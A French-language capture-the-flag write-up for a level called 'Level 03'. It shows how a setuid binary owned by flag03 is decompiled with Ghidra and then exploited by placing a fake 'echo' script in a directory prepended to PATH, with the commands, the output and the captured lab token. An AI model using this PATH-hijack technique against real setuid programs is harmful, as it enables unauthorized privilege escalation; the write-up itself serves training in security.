

# Level 03

Dans le home de `level03` on remarque qu'il existe un binaire nommé `level03`, en executant la commande `ls -la` on peut voir que le binaire s'exécute avec les droits de l'owner c'est à dire `flag03`

```sh
~ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

Quand on lance le binaire, il écrit sur l'entrée standart `Exploit me`, on comprend alors qu'il faut faire du reverse ingénierie.

```sh
~ ./level03
Exploit me
```

On l'as décompiler avec [ghidra](https://ghidra-sre.org/) pour une meilleure visibilité car il décompile en `ASM` et traduit l'`ASM` en pseudo-code `C`. (Ici le screenshot sera que du pseudo-code `C`)



On peux voir qu'il utilise l'enviromnent pour appeler `echo`, on as donc crée un dossier `myPath` dans `/tmp` avec un script bash appeler `echo` qui appel la commande `getflag`.

```shell
~ mkdir /tmp/myPath
~ scp -P 4242 echo level03@192.168.56.101:/tmp/myPath
level03@192.168.56.101 s password:
echo                                            100%   25    33.6KB/s   00:00
~ chmod 777 /tmp/myPath/echo
~ export PATH=/tmp/myPath:$PATH
~ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
~ su level04
Password:
```
